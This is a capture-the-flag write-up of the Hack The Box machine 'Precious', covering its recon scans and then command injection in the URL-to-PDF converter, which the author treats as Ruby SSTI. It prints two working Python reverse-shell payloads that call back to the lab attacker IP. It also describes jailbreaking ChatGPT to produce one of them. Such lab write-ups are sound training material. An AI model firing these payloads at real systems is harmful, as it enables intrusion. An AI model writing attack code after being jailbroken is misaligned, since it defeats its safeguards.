 # Precious (Easy)

<figure><img src="../../../.gitbook/assets/Precious (1).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* 80 and 22 is open, providing a possible entry point from both ports
* Added precious.htb to /etc/hosts
* Viewed source code on precious.htb and could not find any secrets
* Exhausted enumeration, the only thing that is left is to play with the web application itself to see if we can break/force functionality

## Enumeration

### Port 80 - HTTP (nginx 1.18.0)

#### Visual Inspection

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

#### Directory Bruteforce

```
dirsearch -u http://precious.htb
```

* No results

```
feroxbuster -u http://precious.htb ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://precious.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w       18c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       18l       42w      483c http://precious.htb/
[####################] - 40s    30000/30000   0s      found:1       errors:0      
[####################] - 40s    30000/30000   748/s   http://precious.htb/
```

* Nothing found

#### Subdomain Enumeration

```
ffuf -u http://precious.htb -H "Host: FUZZ.precious.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 145

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://precious.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.precious.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 145
________________________________________________

:: Progress: [4989/4989] :: Job [1/1] :: 1052 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

* No results

#### Web Server Fingerprinting

{% code overflow="wrap" %}
```
whatweb precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.129.244.33], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```
{% endcode %}

* nginx 1.18.0
* Ruby-on-Rails
* Phusion Passenger(R) 6.0.15 -- Ran searchsploit -- no luck

#### Vulnerability Scan

```
nikto -h http://precious.htb
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.129.244.33
+ Target Hostname:    precious.htb
+ Target Port:        80
+ Start Time:         2023-04-19 16:30:55 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
+ /: Retrieved x-powered-by header: Phusion Passenger(R) 6.0.15.
+ /: Uncommon header 'x-runtime' found, with contents: Ruby.
+ /FFjnCpnU.chl+: Uncommon header 'x-cascade' found, with contents: pass.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ : Server banner changed from 'nginx/1.18.0 + Phusion Passenger(R) 6.0.15' to 'nginx/1.18.0'.
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ 7962 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2023-04-19 16:38:13 (GMT-4) (438 seconds)
```

* No findings

#### Web Application Testing

Decided to begin testing the web application at this point. Let's see if we can communicate back to our box via python web server:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Confirmed, we can communicate successfully. How can we exploit this behavior?

I attempted to make the application fetch itself, but that did not work.

#### Burpsuite Request Analysis

Upon starting a python web server and attempting to fetch myself, I noticed a % at the top of the Response in Burp. This is an obvious sign that some sort of template is used on the backend.&#x20;

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* Since our server is utilizing Ruby-on-Rails, why not attempt Ruby SSTI?

## Exploitation

### Ruby-based Server Side Template Injection (SSTI)

I was able to test and locate this vulnerability using simple arithmetic logic directly into the user input field on the web app.&#x20;

After I was able to confirm code execution was taking place, the next logical step is to replace the benign payload with a more malicious one and attempt to execute a reverse shell.

<mark style="color:yellow;">Ruby SSTI Python-based Reverse Shell Payload</mark>:

{% code overflow="wrap" %}
```
http://10.10.14.38/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Using a Jailbreak on ChatGPT, I was also able to craft a payload:

{% embed url="https://www.digitaltrends.com/computing/how-to-jailbreak-chatgpt/" %}

ChatGPT Payload (Jailbroken):

{% code overflow="wrap" %}
```
http://10.10.14.38/?name=#{`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.38\",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'`}"}
```
{% endcode %}

There was another way of doing this... If you download the generated PDF, you can use exiftool to view metadata and hex data. Inside at the end, there is a header that shows that it is generated by <mark style="color:yellow;">pdfkit v0.8.6.</mark>

## Privilege Escalation

### Local enumeration

### PrivEsc vector

